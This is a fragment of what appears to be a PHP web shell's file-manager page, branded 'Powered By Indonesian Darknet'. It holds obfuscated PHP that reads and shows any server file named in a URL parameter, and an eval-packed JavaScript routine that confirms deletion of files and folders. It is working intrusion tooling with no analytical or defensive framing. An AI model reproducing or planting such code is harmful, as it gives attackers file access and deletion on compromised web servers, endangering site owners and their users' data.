 <div class="form-group"><label for="ctn">Content :</label><textarea name="ctn" id="ctn" cols="30" rows="10" class="form-control" readonly><?= $fc[18]($fc[14]($p.'/'.nhx($_GET["n"]))) ?></textarea></div><?php endif; ?></div><?php endif; ?></article><div class="bg-dark border text-center mt-2"><small>Copyright &copy; 2021 - Powered By Indonesian Darknet</small></div><script src="//code.jquery.com/jquery-3.5.1.slim.min.js"></script><script src="//cdn.jsdelivr.net/npm/bootstrap@4.6.0/dist/js/bootstrap.bundle.min.js" ></script><script src="//cdn.jsdelivr.net/npm/bs-custom-file-input/dist/bs-custom-file-input.min.js"></script><script>eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--){d[e(c)]=k[c]||e(c)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('E.n();$(\'[2-m="4"]\').4();$(".l").k(j(e){e.g();h 0=$(6).5("2-0");c({b:"a",9:"o i q?",w:"D "+0+" p C B",A:7,z:7,}).y((8)=>{r(8){x 1=$(6).5("3")+"&t="+((0=="v")?"d":"f");u.s.3=1}})});',41,41,'type|buildURL|data|href|tooltip|attr|this|true|willDelete|title|warning|icon|swal||||preventDefault|let|you|function|click|delete|toggle|init|Are|will|sure|if|location||document|folder|text|const|then|dangerMode|buttons|deleted|be|This|bsCustomFileInput'.split('|'),0,{}))</script></body></html>